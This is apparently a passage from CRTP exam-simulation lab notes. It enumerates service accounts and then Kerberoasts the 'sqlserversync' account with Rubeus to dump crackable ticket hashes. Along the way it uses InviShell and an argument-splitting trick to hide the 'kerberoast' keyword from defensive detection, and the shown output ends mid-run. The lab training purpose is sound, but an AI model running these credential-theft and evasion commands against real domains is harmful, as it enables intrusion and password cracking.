 `Get-DomainUser -SPN | Select samaccountname, serviceprincipalname`:
```
samaccountname   serviceprincipalname
--------------   --------------------
krbtgt           kadmin/changepw
sqlserversync👤  MSSQLSvc📌/dbserver31.tech.finance.corp📌
```

![BloodHound Legacy | Analysis - List all Kerberoastable Accounts](crtp_exam_simulation_bloodhound_list_all_kerberoastable_accounts.png)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:sqlserversync /simple /rc4opsec /format:john /outfile:C:\AD\Tools\krb5tgs_hashes.txt`:
```
```
❌

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`cmd /c 'C:\AD\Tools\ArgSplit.bat'`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: kerberoast📌
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

```cmd
set "z=kerb"
set "y=ero"
set "x=ast"
set "Pwn=%z%%y%%x%"
```

```powershell
$z="t";$y="s";$x="a";$w="o";$v="r";$u="e";$t="b";$s="r";$r="e";$q="k";$Pwn="$q$r$s$t$u$v$w$x$y$z"
```

`echo $Pwn`:
```
kerberoast
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args $Pwn /user:sqlserversync /simple /rc4opsec /format:john /outfile:C:\AD\Tools\krb5tgs_hashes.txt`:
```
[*] Action: Kerberoasting📌

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : sqlserversync👤
[*] Target Domain          : tech.finance.corp
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
```